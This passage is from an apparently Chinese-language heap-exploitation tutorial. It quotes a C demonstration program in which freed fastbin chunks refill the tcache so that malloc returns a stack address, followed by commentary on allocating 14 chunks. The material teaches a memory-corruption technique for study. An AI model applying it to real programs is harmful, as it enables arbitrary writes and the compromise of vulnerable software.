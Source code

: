 ```c
    "to show that it hasn't been modified yet.\n\n"
  );

  for (i = 0; i < 6; i++) {
    printf("%p: %p\n", &stack_var[i], (char*)stack_var[i]);
  }

  printf(
    "\n"
    "The next allocation triggers the stack to be overwritten. The tcache\n"
    "is empty, but the fastbin isn't, so the next allocation comes from the\n"
    "fastbin. Also, 7 chunks from the fastbin are used to refill the tcache.\n"
    "Those 7 chunks are copied in reverse order into the tcache, so the stack\n"
    "address that we are targeting ends up being the first chunk in the tcache.\n"
    "It contains a pointer to the next chunk in the list, which is why a heap\n"
    "pointer is written to the stack.\n"
    "\n"
    "Earlier we said that the attack will also work if we free fewer than 6\n"
    "extra pointers to the fastbin, but only if the value on the stack is zero.\n"
    "That's because the value on the stack is treated as a next pointer in the\n"
    "linked list and it will trigger a crash if it isn't a valid pointer or null.\n"
    "\n"
    "The contents of our array on the stack now look like this:\n\n"
  );

  malloc(allocsize);

  for (i = 0; i < 6; i++) {
    printf("%p: %p\n", &stack_var[i], (char*)stack_var[i]);
  }

  char *q = malloc(allocsize);
  printf(
    "\n"
    "Finally, if we malloc one more time then we get the stack address back: %p\n",
    q
  );

  assert(q == (char *)&stack_var[2]);

  return 0;
}
```

首先我们需要申请14个大小在fastbin中的堆块（至于为什么是14个之后会说）：

```c
  for (i = 0; i < 14; i++) { //申请14个大小为0x40的堆块
    ptrs[i] = malloc(allocsize);
  }
```
